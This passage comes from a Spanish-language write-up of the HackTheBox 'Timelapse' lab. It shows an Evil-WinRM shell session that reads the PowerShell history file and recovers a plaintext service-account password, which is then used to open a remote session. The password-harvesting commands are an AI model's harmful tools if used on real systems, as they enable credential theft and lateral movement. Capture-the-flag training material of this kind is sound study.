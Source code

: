 ```bash
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.

*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```

- <https://www.hackingarticles.in/credential-dumpinglaps/> en este caso como estamos en `powershell` podemos ver el historial de comandos como el `bash_history`.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/timelapse/web4.png">
</p>

- Y hay vemos la contraseña del usuario `E3R$Q62^12p7PLlC%KWaxuaV`.

```bash
*Evil-WinRM* PS C:\Users\legacyy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Enter PEM pass phrase:
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
*Evil-WinRM* PS C:\Users\legacyy> 
```
